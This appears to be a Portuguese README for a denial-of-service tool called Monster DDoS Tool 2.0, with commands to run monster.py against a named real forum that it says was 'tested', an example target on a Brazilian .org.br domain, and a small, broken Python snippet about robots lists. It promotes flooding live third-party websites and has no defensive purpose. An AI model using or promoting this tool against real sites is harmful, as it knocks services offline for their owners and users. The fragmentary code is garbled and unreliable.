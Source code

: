 # Monster-DDoS-Tool
Monster DDoS Tool Denial of Service 2.0

**Comandos**

    cd desktop
    cd monster
    monster.py https://forum.xpzone.net

    Site que foram testado o script monster.py
    http://forum.xpzone.net

# lista useragent by Trote
# lista keyword by Trote
# lista robots_bots coded by Trote

**Adicionei esse código no script**

    def robots_list():
        global robots_bots
        robots_bots.append('Allow: /<<<<< Páginas do site')
    return(robots_bots)

    Accept-Language', 'pt-BR,pt;q=0.8
foi ativado o https no script

     Monster DDoS Tool Denial of Service 2.0'
     Digite [URL] Exemplo: http://pmdb.org.br'
